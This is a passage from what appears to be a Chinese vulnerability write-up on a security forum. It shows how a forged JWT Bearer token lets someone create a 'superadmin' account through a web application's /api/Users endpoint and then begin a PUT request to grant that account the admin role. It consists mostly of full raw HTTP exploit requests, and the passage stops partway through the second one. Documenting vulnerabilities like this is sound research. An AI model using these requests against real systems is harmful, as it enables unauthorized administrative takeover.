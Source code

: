 使用同样的手法，创建用户

![image.png](https://shs3.b.qianxin.com/attack_forum/2023/05/attach-5e1210e10e9c0b44472eb37e41f846f6b0670a8f.png)

请求包：

```python
POST /api/Users HTTP/1.1
Host: localhost:50852
Content-Length: 103
sec-ch-ua: "Not A(Brand";v="24", "Chromium";v="110"
Accept: application/json, text/javascript, */*; q=0.01
Content-Type: application/json
X-Requested-With: XMLHttpRequest
sec-ch-ua-mobile: ?0
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/110.0.5481.178 Safari/537.36
sec-ch-ua-platform: "Windows"
Origin: http://localhost:50852
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: cors
Sec-Fetch-Dest: empty
Referer: http://localhost:50852/Admin/Users
Authorization: Bearer eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1bmlxdWVfbmFtZSI6IkFkbWluIiwibmJmIjoxNjgzMzgzNTA1LCJleHAiOjE2OTMzODM1MDUsImlhdCI6MTY4MzM4MzUwNSwiaXNzIjoiQkEiLCJhdWQiOiJhcGkifQ.DvpSS-mW4nmKaTf-NFMQHgWO2XhAP5SFX-7Ec2uV3nQ
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: 
Connection: close

{"Id":"","UserName":"superadmin","Password":"123456","DisplayName":"superadmin","NewPassword":"123456"}
```

再次请求就可以看到账户创建成功了。

![image.png](https://shs3.b.qianxin.com/attack_forum/2023/05/attach-975fb65a044af2c630fdf4b7663d930a10e3e1bf.png)

然后给这个账户增加管理员权限，同样使用JWT验证。

![image.png](https://shs3.b.qianxin.com/attack_forum/2023/05/attach-68d196e38769358565aa9af32a64be68ef327266.png)

请求包：

```python
PUT /api/Users/9?type=role HTTP/1.1
Host: localhost:50852
Content-Length: 5
sec-ch-ua: "Not A(Brand";v="24", "Chromium";v="110"
Accept: application/json, text/javascript, */*; q=0.01
Content-Type: application/json
X-Requested-With: XMLHttpRequest
sec-ch-ua-mobile: ?0
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/110.0.5481.178 Safari/537.36
sec-ch-ua-platform: "Windows"
Origin: http://localhost:50852
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: cors
Sec-Fetch-Dest: empty
Referer: http://localhost:50852/Admin/Users
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
```